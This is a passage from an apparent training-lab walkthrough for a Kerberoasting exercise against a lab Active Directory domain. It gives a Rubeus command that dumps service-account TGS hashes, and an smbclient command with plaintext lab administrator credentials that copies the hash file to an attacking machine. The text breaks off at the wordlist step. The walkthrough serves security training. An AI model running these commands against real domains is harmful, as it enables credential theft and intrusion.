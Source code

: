 # WINDOWS ATTACKS & DEFENSE

## **Kerberoasting**

**Q1** Connect to the target and perform a Kerberoasting attack. What is the password for the svc-iam user?

### Objective

Perform a Kerberoasting attack to obtain crackable TGS tickets for a service account (`svc-iam`) in a Windows Active Directory environment and crack the password using a wordlist.

***

### Target

* **Windows Host:** `10.129.152.235` (ACADEMY-WINATTKDEF-WS01)
* **Domain:** `eagle.local`
* **Service Account:** `svc-iam`

***

### Step 1: Extract TGS Tickets Using Rubeus (Windows)

1. Open **PowerShell** on the target machine.
2. Run the following command to extract TGS tickets for `svc-iam`:

<figure><img src="https://97192284-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgJzvqFCnTpw25MQy2FcH%2Fuploads%2Fka14byJeQRHtgCCWHSNr%2FScreenshot%202025-09-11%20at%2010.14.04%E2%80%AFPM.png?alt=media&#x26;token=afb39c50-d822-46b2-b4c7-4c56e03cd152" alt=""><figcaption></figcaption></figure>

```powershell
.\Rubeus.exe kerberoast /outfile:C:\Users\bob\Downloads\spn.txt /user:svc-iam
```

* The output will generate a file `spn.txt` containing Kerberos TGS hashes.

***

### Step 2: Transfer `spn.txt` to Attacking Machine (Kali)

1. Use **SMBClient** to access the shared folder:

```bash
smbclient //10.129.152.235/Share -U eagle/administrator%Slavi123
```

2. Inside the SMB session, download `spn.txt`:

```smb
smb: \> get spn.txt
smb: \> exit
```

### Step 3: Prepare Wordlist

